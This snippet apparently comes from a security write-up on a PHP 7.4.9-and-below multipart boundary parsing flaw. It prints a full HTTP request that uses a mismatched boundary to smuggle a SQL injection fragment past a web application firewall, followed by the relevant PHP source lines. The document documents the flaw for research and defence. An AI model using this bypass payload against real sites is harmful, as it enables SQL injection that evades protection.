 ### PHP 7.4.9 and below
**Incorrect boundary parsing**  
Attack payload can be hidden from WAF in file

**HTTP Request**
```http
POST / HTTP/1.1
Host: localhost
Content-Type: multipart/form-data; PHPboundaryPHP=phpboundary; boundary=wafboundary
Content-Length: 219

--wafboundary
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

--phpboundary
Content-Disposition: form-data; name="q"

' union select '1
--phpboundary--
--wafboundary--
```

**Source code** ([/php/php-src/main/rfc1867.c](https://github.com/php/php-src/blob/4514afc1875bedf4dc07cb457f8ef5c986a7ca55/main/rfc1867.c#L711-L725))
```c
boundary = strstr(content_type_dup, "boundary");
...
if (!boundary || !(boundary = strchr(boundary, '='))) {
```